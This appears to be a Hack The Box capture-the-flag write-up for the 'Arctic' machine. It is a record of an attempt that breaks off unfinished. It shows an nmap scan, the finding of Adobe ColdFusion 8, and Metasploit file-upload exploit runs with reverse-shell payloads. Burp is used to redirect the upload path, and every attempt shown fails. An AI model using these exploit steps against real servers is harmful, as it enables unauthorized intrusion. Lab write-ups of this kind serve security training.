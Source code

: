 ### Arctic HTB

### Difficulty: Easy

### IP Address = 10.10.10.11

Nmap Scan:

```
──(mark㉿haxor)-[~/Desktop/B2B/HTB/Arctic]
└─$ nmap -sCV -A 10.10.10.11 -p135,8500 -oN nmapscan -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-20 05:07 WAT
Nmap scan report for 10.10.10.11
Host is up (0.31s latency).

PORT     STATE SERVICE VERSION
135/tcp  open  msrpc   Microsoft Windows RPC
8500/tcp open  fmtp?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 165.17 seconds

```

On heading to the service on port 8500 we see its a web server and that its indexed 

Meaning we can list and navigate through files (directory listing)
![image](https://user-images.githubusercontent.com/113513376/213615555-41e799c1-6159-4afe-b1a9-04ad2a7383ef.png)


After poking around i got this url `http://10.10.10.11:8500/CFIDE/administrator/` 

Which when navigated to shows a login page
![image](https://user-images.githubusercontent.com/113513376/213615935-f3fa8b85-7df9-4595-9481-9d52274f5c76.png)

And from the image we see its version also in the logo `Adobe ColdFusion 8`

Now lets fire metasploit and search for possible exploits

```                                                                                                    
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Arctic]
└─$ msfconsole
                                                  
                          ########                  #
                      #################            #
                   ######################         #
                  #########################      #
                ############################
               ##############################
               ###############################
              ###############################
              ##############################
                              #    ########   #
                 ##        ###        ####   ##
                                      ###   ###
                                    ####   ###
               ####          ##########   ####
               #######################   ####
                 ####################   ####
                  ##################  ####
                    ############      ##
                       ########        ###
                      #########        #####
                    ############      ######
                   ########      #########
                     #####       ########
                       ###       #########
                      ######    ############
                     #######################
                     #   #   ###  #   #   ##
                     ########################
                      ##     ##   ##     ##
                            https://metasploit.com


       =[ metasploit v6.2.9-dev                           ]
+ -- --=[ 2229 exploits - 1177 auxiliary - 398 post       ]
+ -- --=[ 867 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: To save all commands executed since start up 
to a file, use the makerc command

[*] Starting persistent handler(s)...
msf6 > 
```

Then search `coldfusion 8 `

```
msf6 > search coldfusion 8

Matching Modules
================

   #  Name                                                Disclosure Date  Rank       Check  Description
   -  ----                                                ---------------  ----       -----  -----------
   0  exploit/multi/http/coldfusion_ckeditor_file_upload  2018-09-11       excellent  No     Adobe ColdFusion CKEditor unrestricted file upload
   1  auxiliary/scanner/http/adobe_xml_inject                              normal     No     Adobe XML External Entity Injection
   2  exploit/windows/http/coldfusion_fckeditor           2009-07-03       excellent  No     ColdFusion 8.0.1 Arbitrary File Upload and Execute
   3  auxiliary/scanner/http/coldfusion_locale_traversal                   normal     No     ColdFusion Server Check
   4  auxiliary/gather/jetty_web_inf_disclosure           2021-07-15       normal     Yes    Jetty WEB-INF File Disclosure


Interact with a module by name or index. For example info 4, use 4 or use auxiliary/gather/jetty_web_inf_disclosure
```

Checking out the exploit

```
msf6 exploit(multi/http/coldfusion_ckeditor_file_upload) > use 0
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(multi/http/coldfusion_ckeditor_file_upload) > set rhosts 10.10.10.11
rhosts => 10.10.10.11
msf6 exploit(multi/http/coldfusion_ckeditor_file_upload) > set lhost tun0
lhost => tun0
msf6 exploit(multi/http/coldfusion_ckeditor_file_upload) > run

[*] Started reverse TCP handler on 10.10.16.7:4444 
[*] Uploading the JSP payload at /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/uploadedFiles/IYTSIKNIN.jsp...
[-] Exploit aborted due to failure: unknown: Upload Failed...
[*] Exploit completed, but no session was created.
```

Ok it failed but why?

Its cause the path its trying to upload our payload doesn't exist

But since we have directory listing we can find the right path

After playing around for some minutes i found this path `/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/cf_upload.cfm` 

So instead of the exploit to attempt to upload the file in `/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/uploadedFiles/` 

I can rather make it upload in the path i want

To do this i need to intercept the request in burp

So in the exploit i'll add this 

```
msf6 exploit(multi/http/coldfusion_ckeditor_file_upload) > set proxies http:127.0.0.1:8080
proxies => http:127.0.0.1:8080
```

Now i'll try to re-run the exploit and intercept it in burp 
![image](https://user-images.githubusercontent.com/113513376/213618734-020e0c36-a378-4852-b1db-18c61553705e.png)

So I will just change the path to the right one which is `/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/cf_upload.cfm` 
![image](https://user-images.githubusercontent.com/113513376/213618807-a9c6d0f8-c06a-4961-8a97-e3588e09f0b8.png)

But still it fails 

```
msf6 exploit(multi/http/coldfusion_ckeditor_file_upload) > run

[*] Started reverse TCP handler on 10.10.16.7:4444 
[*] Uploading the JSP payload at /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/uploadedFiles/QFSQVIZRMX.jsp...
[-] Exploit aborted due to failure: unknown: Upload Failed...
[*] Exploit completed, but no session was created.
```

Now i checked the request it made in burp suite proxy history

And tried it again and it uploaded
![image](https://user-images.githubusercontent.com/113513376/213619722-86fe1441-b321-49ff-966b-9707507528c5.png)

But another problem 

It doesn't really upload it needs another http form of request (GET) to work which i can't chain using burp

So i went back to msf and try other exploit

```
msf6 exploit(windows/http/coldfusion_fckeditor) > use exploit/windows/http/coldfusion_fckeditor
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(windows/http/coldfusion_fckeditor) > set rport 8500
rport => 8500
msf6 exploit(windows/http/coldfusion_fckeditor) > set rhosts 10.10.10.11
rhosts => 10.10.10.11
msf6 exploit(windows/http/coldfusion_fckeditor) > set proxies http:127.0.0.1:8080
proxies => http:127.0.0.1:8080
msf6 exploit(windows/http/coldfusion_fckeditor) > set lhost tun0
lhost => tun0
msf6 exploit(windows/http/coldfusion_fckeditor) > 
```

On running it 

```
msf6 exploit(windows/http/coldfusion_fckeditor) > run

[*] Started reverse TCP handler on 10.10.16.7:4444 
[*] Sending our POST request...
[-] Upload Failed...
[*] Exploit completed, but no session was created.
msf6 exploit(windows/http/coldfusion_fckeditor) > 

```

Failed again 

The request made 
![image](https://user-images.githubusercontent.com/113513376/213620781-0fa8eebf-801e-48a6-9f41-037911b08adf.png)

So it seems like this is the right exploit to use cause it is chaining the required request method and also sending it to the right path of the upload.crm

So guess its time to debug lol





